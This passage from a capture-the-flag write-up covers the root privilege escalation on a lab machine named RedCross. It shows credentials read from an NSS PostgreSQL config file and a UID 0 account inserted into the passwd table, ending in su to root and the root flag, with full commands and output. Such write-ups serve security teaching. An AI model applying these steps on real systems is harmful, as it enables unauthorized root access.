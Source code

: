 ```
snowscan2@redcross:~$ ls -l
total 12
drwxr-xr-x  3 root root 4096 Jun  6 14:05 bin
drwxrwxr-x 11 root root 4096 Jun  7 17:32 Haraka-2.8.8
-rw-------  1 root root   33 Jun  8 06:51 root.txt
snowscan2@redcross:~$ cat root.txt
cat: root.txt: Permission denied
```

We can now read `nss-pgsql-root.conf` since we are part of root's group and we find more credentials: `unixnssroot / 30jdsklj4d_3`

```
snowscan2@redcross:/etc$ ls -l nss-pgsql-root.conf
-rw-rw---- 1 root root 540 Jun  8 06:24 nss-pgsql-root.conf
snowscan2@redcross:/etc$ cat nss-pgsql-root.conf
shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);
```

Using this account, we are able to create a new user with UID 0:

```
unix=> insert into passwd_table (username, passwd, uid,gid, homedir) values ('snowscan_root','$6$oTkOZvS...',0,0,'/root');
INSERT 0 1
unix=> select * from passwd_table;
   username    |                                               passwd                                               | uid  | gid  | gecos |    homedir     |   shell   
---------------+----------------------------------------------------------------------------------------------------+------+------+-------+----------------+-----------
 tricia        | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp.                                                                 | 2018 | 1001 |       | /var/jail/home | /bin/bash
 snowscan      | $1$ANxI97CM$NZZ3OJtS7FevXzzfR//ih0                                                                 | 2020 | 1001 |       | /var/jail/home | /bin/bash
 snowscan2     | $6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UCzEdZxhzd/MbSy2R5Kp1x4rtNCgHsJ1 | 2022 |    0 |       | /root          | /bin/bash
 snowscan_root | $6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UCzEdZxhzd/MbSy2R5Kp1x4rtNCgHsJ1 |    0 |    0 |       | /root          | /bin/bash
(4 rows)
```

We can't SSH in with this account because of the SSH server settings:

```console
snowscan2@redcross:/etc/ssh$ grep -i root sshd_config
PermitRootLogin prohibit-password
```

But we can `su` to the new user and get the root flag

```console
snowscan2@redcross:/etc/ssh$ su -l snowscan_root
Password:

snowscan_root@redcross:~# id
uid=0(snowscan_root) gid=0(root) groups=0(root)

snowscan_root@redcross:~# cat /root/root.txt
892a1f...
```